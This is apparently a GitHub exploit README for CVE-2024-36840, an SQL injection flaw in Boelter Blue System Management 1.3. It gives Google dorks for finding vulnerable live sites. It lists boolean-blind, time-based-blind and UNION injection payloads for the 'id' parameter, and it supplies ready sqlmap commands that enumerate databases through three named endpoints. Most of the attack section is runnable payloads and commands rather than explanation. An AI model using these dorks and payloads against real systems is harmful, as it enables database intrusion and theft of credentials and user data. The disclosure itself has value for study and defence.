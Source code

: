 # CVE-2024-36840: SQL Injection Vulnerability in Boelter Blue System Management (Version 1.3)

## Exploit Details

- **Exploit Title**: SQL Injection Vulnerability in Boelter Blue System Management (version 1.3)
- **Original Google Dork**: `inurl:"Powered by Boelter Blue"` (didn't worked(zero url in search))
- **Google Dork By Theexploiters**: `intext:"Powered by Boelter Blue"` (working)

- **Date**: 2024-06-04
- **Exploit Author**: CBKB (DeadlyData, R4d1x)
- **Vendor Homepage**: [Boelter Blue](https://www.boelterblue.com)
- **Software Link**: [Google Play Store](https://play.google.com/store/apps/details?id=com.anchor5digital.anchor5adminapp&hl=en_US)
- **Version**: 1.3
- **Tested on**: Linux Debian 9 (stretch), Apache 2.4.25, MySQL >= 5.0.12
- **CVE**: CVE-2024-36840

## Vulnerability Description

Multiple SQL Injection vulnerabilities have been identified in Boelter Blue System Management (version 1.3). These vulnerabilities allow attackers to inject and execute arbitrary SQL commands through various parameters. Successful exploitation may result in unauthorized access, data exfiltration, and potential account takeovers.

### Affected Parameters and Exploit Details:

1. **Parameter**: `id` (GET)
   - **Type**: Boolean-based blind
   - **Payload**: `id=10071 AND 4036=4036`

2. **Type**: Time-based blind
   - **Payload**: `id=10071 AND (SELECT 4443 FROM (SELECT(SLEEP(5)))LjOd)`

3. **Type**: UNION query
   - **Payload**: `id=-5819 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7170766b71,0x646655514b72686177544968656d6e414e4678595a666f77447a57515750476751524f5941496b55,0x7162626a71),NULL,...`

### Vulnerable Endpoints

1. **news_details.php?id**
   - **Example**: `https://www.example.com/news_details.php?id=10071`
   - **Exploitation**: 
     ```bash
     sqlmap -u "https://www.example.com/news_details.php?id=10071" --random-agent --dbms=mysql --threads=4 --dbs
     ```

2. **services.php?section**
   - **Example**: `https://www.example.com/services.php?section=5081`
   - **Exploitation**: 
     ```bash
     sqlmap -u "https://www.example.com/services.php?section=5081" --random-agent --tamper=space2comment --threads=8 --dbs
     ```

3. **location_details.php?id**
   - **Example**: `https://www.example.com/location_details.php?id=836`
   - **Exploitation**: 
     ```bash
     sqlmap -u "https://www.example.com/location_details.php?id=836" --random-agent --dbms=mysql --dbs
     ```

## Impact

- **Unauthorized Database Access**: Exploitation can lead to unauthorized access to the database, allowing attackers to extract sensitive information.
- **Data Leakage**: Sensitive data such as admin credentials, user PII, and purchase history can be compromised.
- **Account Takeovers**: Attackers can potentially take over user accounts.
- **Full Control**: Full control over the affected application can be achieved, leading to severe security implications.

## Credits

- **Discoverers**: CBKB (DeadlyData, R4d1x)

## References

- [CyberDepot Vulnerability Report](https://infosec-db.github.io/CyberDepot/vuln_boelter_blue/)
- [CVE-2024-36840](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-36840)


![Repo View Counter](https://profile-counter.glitch.me/CVE-2024-36840-Exploit/count.svg)


